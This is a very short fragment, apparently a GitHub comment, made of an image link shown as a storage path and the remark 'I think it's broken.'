

I think it's broken.
